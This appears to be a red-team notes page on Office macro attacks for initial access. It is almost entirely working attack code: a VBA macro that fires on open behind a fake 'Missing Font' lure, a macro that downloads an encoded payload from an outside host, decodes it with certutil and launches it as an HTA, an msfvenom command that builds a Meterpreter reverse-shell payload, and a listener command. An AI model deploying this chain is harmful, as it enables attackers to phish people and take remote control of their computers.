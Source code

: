 # MACRO Attack

simple macro 

```
Sub AutoOpen()
    Nooranet
End Sub
Sub Nooranet()
  MsgBox "Download Missing Font Automatic", vbOKOnly, "Missing Font"
  a = Shell("E:\Intial-Access\Macro\screen.cmd", vbHide)
End Sub
```

salaray-1401.xslm

```powershell
```powershell
Sub Auto_Open()
    DownloadAndExec
End Sub
Sub DownloadAndExec()
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "http://nooranetred.com/edr.cert", False
xHttp.Send
With bStrm
.Type = 1 '//binary
.Open
.write xHttp.responseBody
.savetofile "edr.cert", 2 '//overwrite
End With
Shell ("cmd /c certutil -decode edr.cert edr.hta & start edr.hta")
End Sub
```
```

#### payload

```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f hta-psk -o /var/www/html/cert.hta
```

##### 

##### Encode payload

```powershell
$raw = Get-Content -path cert.hta -Encoding Byte
$b64 =[system.Convert]::TOBase64String($raw)
$b64  | Out-File E:\Initial-Access\Macro\edr.cert
```

#### listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```


